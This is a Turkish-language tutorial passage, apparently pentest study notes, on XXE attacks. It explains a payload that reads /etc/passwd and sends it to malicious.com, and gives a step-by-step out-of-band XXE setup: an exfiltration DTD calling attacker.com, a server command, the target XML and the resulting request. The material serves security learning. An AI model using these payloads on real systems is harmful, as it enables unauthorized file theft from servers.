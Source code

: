 |Satır|Açıklama|
|---|---|
|`<!ENTITY % xxe SYSTEM "file:///etc/passwd" >`|Sistemdeki `/etc/passwd` dosyasını okur ve `%xxe;` adında bir entity tanımlar.|
|`<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">`|`callhome` adlı bir ENTITY oluşturur ve bu ENTITY'nin URL’sine, `%xxe;` (yani dosya içeriği) gömülür.|
|`<foo>&callhome;</foo>`|Bu ENTITY çağrıldığında, uygulama `malicious.com/?...` gibi bir adrese istek atmaya çalışır.|

- `/etc/passwd` dosyasının **ilk satırını** okur (neden ilk satır? çünkü bazı XML parser’lar URI’ye gömülen entity'lerde sadece ilk satırı çözümler),
- Bu satırı `www.malicious.com/?...` adresine gönderir.
- Saldırganın `malicious.com` loglarında `/?root:x:0:0:root:/root:/bin/bash` gibi bir istek görünür.


### 99- Out of Band XXE (PayloadsAllTheThings)

`parameterEntity_oob.dtd` dosyasını oluştur:

```
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?%file;'>">
%all;
```
Not: `attacker.com` yerine kendi IP/ngrok adresini yaz.

```
python3 -m http.server 80
```

Dosyan `parameterEntity_oob.dtd` adında `/home/kali/` klasöründe olsun. Server çalışınca `http://<your-ip>/parameterEntity_oob.dtd` adresinden erişilebilir olur.

Hedef sisteme gönderilecek XML (senin yazacağın payload):

Bunu hedefte XML parser çalışan uygulamaya gönderiyorsun (örneğin file upload, SOAP endpoint, XML API vs).

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://attacker.com/parameterEntity_oob.dtd">
<data>&send;</data>
```

- `parameterEntity_oob.dtd` dosyasını uzaktan yükler (senin makinen).
- Dosya içindeki tanımları işler (`file`, `send`).
- `/sys/power/image_size` dosyasını okur.
- Şunu yapar:

```
GET http://attacker.com/?134217728
```
Sayı dosya içeriğidir, senin loglarına düşer.)

**`/sys/power/image_size`**, genellikle Linux sistemlerde bulunan bir **kernel parametresidir**. İçinde genelde bir sayı olur.  Bu neden kullanılıyor? Çünkü bu dosya: Hedef sistemde her zaman bulunur (Linux varsayılanı).
